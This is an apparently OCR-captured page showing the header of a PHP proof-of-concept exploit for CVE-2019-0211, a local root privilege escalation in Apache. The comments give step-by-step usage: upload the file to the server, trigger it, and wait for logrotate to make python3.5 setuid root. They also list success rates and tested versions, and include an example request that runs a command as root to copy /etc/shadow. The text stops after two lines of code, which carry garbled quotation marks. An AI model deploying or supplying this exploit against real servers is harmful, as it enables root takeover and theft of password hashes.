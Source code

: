 ### poc 2

```
<?php
# CARPE (DIEM): CVE-2019-0211 Apache Root Privilege Escalation
# Charles Fol
# @cfreal_
# 2019-04-08
#
# INFOS
#
# https://cfreal.github.io/carpe-diem-cve-2019-0211-apache-local-root.html
#
# USAGE
#
# 1\. Upload exploit to Apache HTTP server
# 2\. Send request to page
# 3\. Await 6:25AM for logrotate to restart Apache
# 4\. python3.5 is now suid 0
#
# You can change the command that is ran as root using the cmd HTTP
# parameter (GET/POST).
# Example: curl http://localhost/carpediem.php?cmd=cp+/etc/shadow+/tmp/
#
# SUCCESS RATE
#
# Number of successful and failed exploitations relative to of the number
# of MPM workers (i.e. Apache subprocesses). YMMV.
#
# W  --% S   F
#  5 87% 177 26 (default)
#  8 89%  60  8
# 10 95%  70  4
#
# More workers, higher success rate.
# By default (5 workers), 87% success rate. With huge HTTPds, close to 100%.
# Generally, failure is due to all_buckets being relocated too far from its
# original address.
#
# TESTED ON
#
# - Apache/2.4.25
# - PHP 7.2.12
# - Debian GNU/Linux 9.6
#
# TESTING
#
# $ curl http://localhost/cfreal-carpediem.php
# $ sudo /usr/sbin/logrotate /etc/logrotate.conf --force
# $ ls -alh /usr/bin/python3.5
# -rwsr-sr-x 2 root root 4.6M Sep 27  2018 /usr/bin/python3.5
#
# There are no hardcoded addresses.
# - Addresses read through /proc/self/mem
# - Offsets read through ELF parsing
#
# As usual, there are tons of comments.
#

o(‘CARPE (DIEM) ~ CVE-2019-0211’);

o(’’);

```
